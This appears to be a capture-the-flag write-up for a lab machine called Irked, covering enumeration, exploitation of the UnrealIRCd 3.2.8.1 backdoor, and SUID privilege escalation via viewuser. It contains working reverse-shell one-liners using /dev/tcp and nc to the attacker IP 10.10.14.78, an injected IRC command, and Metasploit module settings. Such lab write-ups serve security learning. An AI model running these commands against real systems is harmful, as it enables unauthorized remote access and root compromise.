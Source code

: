 # Summary



## about target

tip:  10.129.

hostname: 

Difficulty: 



## about attack

+ ircd enum,  connect and got version. vuln check and get shell.
+ viewuser suid exploit. 
+ 





**attack note**

```bash
Irded / 10.129.3.210

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
|_irc-info: Unable to open connection
34787/tcp open  rpcbind
65534/tcp open  irc     UnrealIRCd
|_irc-info: Unable to open connection


---- http enum / rabbit hole
# nothing found.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log



---- irc enum 
-- irked.htb, from nc connect
-- djmardov@irked.htb, from nmap irdc sc scan.
-- unrealIRCd exploit, version 3.2.8.1 backdoor/remote downloader&execute

nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 6697,8067 irked.htb


---- exploit 

use (unix/irc/unreal_ircd_3281_backdoor)
set payload payload/cmd/unix/bind_perl
set rhosts 10.129.3.210
set rport 6697
run 

---- local enum / ircd
-- Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux

-- lpeas.sh
CVE-2018-14665
CVE-2015-8660

/usr/bin/viewuser (Unknown SUID binary)

---- system 

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 9002 >/tmp/f" > /tmp/listusers
```



# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
|_irc-info: Unable to open connection
34787/tcp open  rpcbind
65534/tcp open  irc     UnrealIRCd
|_irc-info: Unable to open connection
```



## http enum

dir scan, nothing.

```bash
# nothing found.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log
```



## Ircd enum

```bash
nc -nv $tip 6697
```

found domain name and email address, could be the user.

-- irked.htb, from nc connect
-- djmardov@irked.htb, from nmap irdc sc scan.

![image-20221023214425043](./images/image-20221023214425043.png)



nmap sc scan, nothing.

```bash
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 6697,8067 irked.htb
```

![image-20221023214451200](./images/image-20221023214451200.png)



enum the version.  from ipsec video. 

search key: RFC irc

```bash
nc -nv $tip 6697
PASS test123
NICK test

USER test hostname servername :test123
```

![image-20221023220607596](./images/image-20221023220607596.png)



Search exploit. if no version info, try the exploit.

Search irdc, got serveral exploit. 

![image-20221023220903026](./images/image-20221023220903026.png)



vulnerablity  check

```bash
echo "AB; ping -c 1 10.10.14.78" | nc -nv $tip 6697

# get shell
echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1'" | nc -nv $tip 6697
```

![image-20221023222050919](./images/image-20221023222050919.png)





# Exploitation

```bash
use unix/irc/unreal_ircd_3281_backdoor
set payload payload/cmd/unix/bind_perl
set rhosts 10.129.3.210
set rport 6697
run 
```

![image-20221023213321474](./images/image-20221023213321474.png)

ircd session. 

# Privesc



## Local enum

Manual enum, nothing.  no cron job, no sudo, no password found. 

linpeas enum.

CVE-2018-14665
CVE-2015-8660

/usr/bin/viewuser (Unknown SUID binary)



## System

viewuser suid exploit.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 9002 >/tmp/f" > /tmp/listusers

chmod 777 /tmp/listusers

/usr/bin/viewuser
```

got root shell.

![image-20221023213218524](./images/image-20221023213218524.png)

